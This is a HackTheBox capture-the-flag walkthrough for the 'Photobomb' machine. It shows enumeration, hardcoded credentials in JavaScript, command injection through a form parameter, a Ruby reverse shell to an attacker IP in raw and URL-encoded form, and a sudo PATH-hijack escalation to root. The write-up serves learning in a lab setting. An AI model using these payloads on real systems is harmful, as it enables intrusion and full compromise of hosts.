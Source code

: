 # Photobomb HTB Walkthrough


![Photobomb](./photobomb.png)

## Introduction

An easy rated machine, and one of my first on HTB that was recently retired.  This box was pwned before I started using [MarkText](https://github.com/marktext/marktext) and adding in screenshots to my markdown notes, so I've only captured STDOUT here, and the entire write up is boring plain text.. sorry.

As always, I use [Parrot OS Security Edition](https://www.parrotsec.org/download/) in a VirtualBox VM, with the OpenVPN client to connect to the HackTheBox VPN.

## Enumeration

Nmap -sC and -sV shows 22 (ssh) and http (80) open.  Navigating to http://10.10.11.182/ redirects to http://photobomb.htb.
After adding this domain to /etc/hosts, we see a landing page for Photobomb franchise, with a link to http://photobomb.htb/printer -- which presents a basic auth dialog.

Again, no screenshots, so you will need to use your imagination or just trust me.

Let's start up gobuster in the background while poking around:

```bash
gobuster dir -u http://photobomb.htb -w /usr/share/dirb/wordlists/common.txt
```

This only returns a favicon and /printer plus /printers, both of which require a user/pass, but if I run gobuster with the `/usr/share/dirb/wordlists/big.txt` wordlist, I notice:

```
===============================================================
2022/12/25 13:06:09 Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 273]
/]                    (Status: 400) [Size: 273]
/favicon.ico          (Status: 200) [Size: 10990]
/plain]               (Status: 400) [Size: 278]  
/printer              (Status: 401) [Size: 188]  
/printer-friendly     (Status: 401) [Size: 188]  
/printerfriendly      (Status: 401) [Size: 188]  
/printer_friendly     (Status: 401) [Size: 188]  
/printers             (Status: 401) [Size: 188]  
/quote]               (Status: 400) [Size: 278]  

```

Manually checking some of the above:
```
Bad Request
bad URI `/quote]'.
WEBrick/1.6.0 (Ruby/2.7.0/2019-12-25) at photobomb:4567 
```

So maybe I should look at WEBrick vulns.. but should quickly look at the rest of the site before going deep into a rabbit hole and never returning.

I found the following javascript http://photobomb.htb/photobomb.js, which is requested when visiting the home page.  I basically just leave the Firefox developer tools open and
see what interesting looking requests are made, but intercepting via Burp Suite and looking at the Site map is also a good option here -- especially as the number of files, directories and general structure of the site become larger and more complex.  Burp suite will build up a better picture of what the site looks like over time as you navigate around, fire off requests, etc.

Anyway, the javascript file in question contains:

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;

```

Confirmed I am able to log in to http://pH0t0:b0Mb!@photobomb.htb/printer , which gives me a gallery of JPEG thumbnails along with a big red D*OWNLOAD PHOTO TO PRINT* button, and a drop-down to select the file format.

Burp suite captures the following when intercepting POST requests to download an image in a selected file format via the UI:

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://photobomb.htb/printer
Content-Type: application/x-www-form-urlencoded
Content-Length: 79
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

After logging in, I can also hit the /printers endpoint I found earlier, which indicates it's a Sinatra app:

```
Sinatra doesn’t know this ditty.
Try this:

get '/printers' do
  "Hello World"
end
```

## Foothold

I initially tried to use [commix](https://github.com/commixproject/commix) for command injection, but it kept erroring out. I then tried command injection into the photo param without any success.  But then I was able to confirm command injection by sending the following payload to /printer:

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;sleep 15&dimensions=30x20
```

So, we basically escape the file type with a semi-colon `;`, no need for quotes, double-quotes etc.

I confirmed the endpoint appeared to become unresponsive for ~15 seconds as expected.
I had issues with typical bash reverse shells, and assumed injecting into the file type was working as the application maybe (?) shells out to bash to run imagemagick or similar in order to convert the image format on the fly, but I was able to use a URL encoded ruby shell from [revshells.com](https://revshells.com):

```
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.3",6969))'
```

When injected, by setting Burp Suite to automagically HTML encode my payload, we end up sending the following in the body of the POST request:

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.14.3%22%2C6969%29%29%27&dimensions=30x20
```

I confirmed I now had a reverse shell:

```
$nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.182] 50358
python3 -c 'import pty; pty.spawn("/bin/bash")'
wizard@photobomb:~/photobomb$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
wizard@photobomb:~/photobomb$ find / -name 'user.txt' 2> /dev/null
find / -name 'user.txt' 2> /dev/null
/home/wizard/user.txt
wizard@photobomb:~/photobomb$ cat /home/wizard/user.txt
cat /home/wizard/user.txt
0afc4ac78d0ff030a8ee3a05821cabf1
```

So I have the user flag, taken from wizard's account!

## Privilege Escalation

Now on to privilege escalation.  First, let's try the low hanging fruit:

```bash
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

So we can run `/opt/cleanup.sh`..  Looking at this script:

```bash
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

The commands are absolute paths except for `find`. I tried copying `/bin/bash` to `/tmp/find`, and running the script while
preserving my environment with the `-E` flag, which disables the env_reset option:

```bash
PATH="/tmp:$PATH" sudo -E /opt/cleanup.sh
```
So, when the shell attempts to run `find`, it first checks the `/tmp` directory, and instead would execute my copy of `bash`.

However, this wasn't working, and after a few minutes of digging through the [sudo man page](https://man7.org/linux/man-pages/man8/sudo.8.html) I noticed the env_reset in `sudo -l` output will reset the path, however also noticed that SETENV is enabled.  So, I was able to pick up my fake find executable with a plain old:

```bash
wizard@photobomb:~/photobomb$ sudo PATH="/tmp:$PATH" /opt/cleanup.sh 
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
adc699daf52cc1ba2c0d95e5cc85f007
```

So the `/opt/cleanup.sh` script runs as root, and locates the `find` command in `/tmp`, which is actually a copy of `bash` -- giving us a root shell.

Machine completed!

https://www.hackthebox.com/achievement/machine/329250/500

## Conclusion

Quite straight forward with basic web enumeration -- a javascript file with hardcoded basic auth creds,
leading into a basic web app that displays a photo gallery.  Looking at web requests, we can see a param for filetype in the form data which we can inject into after failing to inject into filename.

I struggled to get a basic bash reverse shell working, but knowing the app is a Ruby-based Sinatra app, we can inject a Ruby reverse shell that calls out to `sh` and pipes the output to a TCP socket in order to gain foothold.

From here, we can take advantage of a script we can run as `sudo` by clobbering the expected `find` executable's location in `PATH`.  While env_reset is enabled which causes commands to be executed with a minimal environment, the SETENV option is set, which allows us to prefix a directory to PATH -- this directory is enumerated first, finding and executing our renamed `bash` command as `find` -- giving us a root shell.

Looking forward to posting the next one!
